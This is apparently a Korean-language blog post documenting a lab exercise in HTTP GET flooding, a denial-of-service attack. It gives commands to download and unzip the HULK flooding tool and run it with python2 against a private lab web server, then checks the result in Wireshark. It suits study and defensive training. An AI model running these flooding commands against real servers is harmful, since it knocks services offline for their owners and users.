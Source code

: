 ```yaml
---
title:  "HTTP Get Flooding" 

categories:
  - Dos
tags:
  - [dos]

toc: true

date: 2022-10-04
last_modified_at: 2022-10-04
---
```


## GET Flooding

- GET Flooding
  - 공격자가 동일한 URL을 반복 요청하여 웹 서버의 부하를 유발하는 공격
  - 요즘은 많이 보이지 않고 변형공격 GET 전송시에 랜덤으로 URL 을 변조하여 보내는 방식

- 실습

  - 구성도

  - 설정

    > 파일 다운로드

    ```
    wget https://github.com/grafov/hulk/archive/master.zip
    ```

    ![화면 캡처 2022-10-06 155600](../../assets/img/화면 캡처 2022-10-06 155600.png)

    > 압축해제

    ```
    # unzip /root/master.zip
    ```

    ![화면 캡처 2022-10-06 155752](../../assets/img/화면 캡처 2022-10-06 155752.png)

    > hulk.py 를 실행하려면 python이 필요하기 때문에 phython 확인

    ```
    # python
    ```

    ![화면 캡처 2022-10-06 161233](../../assets/img/화면 캡처 2022-10-06 161233.png)

    ```
    # python2
    ```

    ![화면 캡처 2022-10-06 161255](../../assets/img/화면 캡처 2022-10-06 161255.png)

  - 공격

    ```
    ┌──(root㉿kali)-[~/hulk-master]
    └─# cd hulk-master
    ┌──(root㉿kali)-[~/hulk-master]
    └─# python2 hulk.py http://172.16.0.120(웹서버주소)
    ```

    ![화면 캡처 2022-10-06 161534](../../assets/img/화면 캡처 2022-10-06 161534.png)

  - 와이어샤크로 확인

    ![화면 캡처 2022-10-06 161139](../../assets/img/화면 캡처 2022-10-06 161139.png)

  - 웹서버 접속시 접속은 되지만 느려진다

    

    

    

  